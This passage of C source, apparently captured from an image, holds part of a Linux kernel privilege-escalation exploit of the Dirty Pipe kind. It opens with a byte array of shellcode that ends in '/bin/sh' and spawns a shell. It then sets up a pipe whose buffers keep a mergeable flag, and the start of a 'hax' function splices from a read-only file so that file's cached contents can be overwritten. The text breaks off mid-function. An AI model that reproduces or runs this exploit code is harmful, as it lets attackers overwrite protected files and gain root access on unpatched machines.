 ```
	0x00, 0x00, 0x00, 0x0f, 0x05, 0x48, 0x31, 0xff, 0x48, 0xc7, 0xc0, 0x6a,
	0x00, 0x00, 0x00, 0x0f, 0x05, 0x48, 0x8d, 0x3d, 0x1b, 0x00, 0x00, 0x00,
	0x6a, 0x00, 0x48, 0x89, 0xe2, 0x57, 0x48, 0x89, 0xe6, 0x48, 0xc7, 0xc0,
	0x3b, 0x00, 0x00, 0x00, 0x0f, 0x05, 0x48, 0xc7, 0xc0, 0x3c, 0x00, 0x00,
	0x00, 0x0f, 0x05, 0x2f, 0x62, 0x69, 0x6e, 0x2f, 0x73, 0x68, 0x00
};

/**
 * Create a pipe where all "bufs" on the pipe_inode_info ring have the
 * PIPE_BUF_FLAG_CAN_MERGE flag set.
 */
static void prepare_pipe(int p[2])
{
	if (pipe(p)) abort();

	const unsigned pipe_size = fcntl(p[1], F_GETPIPE_SZ);
	static char buffer[4096];

	/* fill the pipe completely; each pipe_buffer will now have
	   the PIPE_BUF_FLAG_CAN_MERGE flag */
	for (unsigned r = pipe_size; r > 0;) {
		unsigned n = r > sizeof(buffer) ? sizeof(buffer) : r;
		write(p[1], buffer, n);
		r -= n;
	}

	/* drain the pipe, freeing all pipe_buffer instances (but
	   leaving the flags initialized) */
	for (unsigned r = pipe_size; r > 0;) {
		unsigned n = r > sizeof(buffer) ? sizeof(buffer) : r;
		read(p[0], buffer, n);
		r -= n;
	}

	/* the pipe is now empty, and if somebody adds a new
	   pipe_buffer without initializing its "flags", the buffer
	   will be mergeable */
}

int hax(char *filename, long offset, uint8_t *data, size_t len) {
	/* open the input file and validate the specified offset */
	const int fd = open(filename, O_RDONLY); // yes, read-only! :-)
	if (fd < 0) {
		perror("open failed");
		return -1;
	}

	struct stat st;
	if (fstat(fd, &st)) {
		perror("stat failed");
		return -1;
	}

	/* create the pipe with all flags initialized with
	   PIPE_BUF_FLAG_CAN_MERGE */
	int p[2];
	prepare_pipe(p);

	/* splice one byte from before the specified offset into the
	   pipe; this will add a reference to the page cache, but
	   since copy_page_to_iter_pipe() does not initialize the
	   "flags", PIPE_BUF_FLAG_CAN_MERGE is still set */
	--offset;
```